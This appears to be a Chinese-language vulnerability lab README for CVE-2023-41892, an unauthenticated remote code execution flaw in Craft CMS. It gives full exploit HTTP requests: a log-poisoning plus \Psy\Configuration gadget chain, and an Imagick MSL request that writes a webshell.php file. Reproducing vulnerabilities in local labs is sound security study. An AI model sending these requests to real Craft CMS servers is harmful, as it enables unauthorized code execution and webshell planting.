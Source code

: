 # CraftCMS未授权远程代码执行漏洞（CVE-2023-41892）

Craft CMS是一个灵活、用户友好的内容管理系统，用于在Web上创建自定义的数字体验。它为用户提供了一个后端界面来实现网站并配置CMS。

Craft CMS 4.4.0至4.4.14版本中存在一个远程代码执行漏洞。未经身份验证的攻击者可以通过`ConditionsController`实现远程代码执行。该漏洞存在于控制器的`beforeAction`方法中，由于输入验证不足，攻击者可以利用该漏洞创建任意对象并实现代码执行。

参考链接：

- <https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g>
- <https://blog.calif.io/p/craftcms-rce>
- <https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

## 环境搭建

执行如下命令启动一个存在漏洞的Craft CMS 4.4.14环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8088/admin/install`即可看到CraftCMS的安装页面。请按照页面提示完成安装，默认数据库地址为`db`，用户名和密码均为`root`。

![](1.png)

## 漏洞复现

漏洞的根本原因是攻击者可以通过PHP对象注入发送特制的HTTP请求来创建任意对象。通过链接代码库中的多个gadget，攻击者可以实现远程代码执行。

有两种常用的gadget组合可以实现远程代码执行。

### Gadget 1：使用`craft\elements\conditions\users\UserCondition`和`\Psy\Configuration`

这个gadget需要服务器开启日志记录功能，该功能默认是开启的。

首先，发送一个包含语法错误的JSON的POST请求，将payload写入日志文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
aaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaa
<?php
@phpinfo(); __halt_compiler();
?>
}
```

![](2.png)

然后，通过`\Psy\Configuration` gadget包含日志文件来触发远程代码执行（请将`2025-03-31`替换为当前日期）：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
  "config": {
    "name": "test",
    "as xyz": {
      "class": "\\Psy\\Configuration",
      "__construct()": {
        "config": {
          "configFile": "../storage/logs/web-2025-03-31.log"
        }
      }
    }
  },
  "test": "craft\\elements\\conditions\\users\\UserCondition"
}
```

![](3.png)

如图所示，PHPINFO成功执行。

### Gadget 2：使用`craft\elements\conditions\users\UserCondition`和内置的`Imagick`类

如果服务器启用了Imagick扩展，可以使用`Imagick`类的MSL格式来写入任意文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytlNPtAxuuGOeUqqY

------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="test"

craft\elements\conditions\users\UserCondition
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[name]"

test
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][class]"

imagick
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][__construct()][0][0]"

vid:msl:/tmp/php*
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="file"; filename="1.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
  <read filename="caption:&lt;?=phpinfo();?&gt;"/>
  <write filename="info:webshell.php" />
</image>
------WebKitFormBoundarytlNPtAxuuGOeUqqY--
```

这个payload会执行类似`new Imagick('vid:msl:/tmp/php*');`的PHP代码，并导致"Segmentation fault"错误，使线程崩溃：

![](4.png)

但是`webshell.php`文件已经成功写入：

![](5.png)
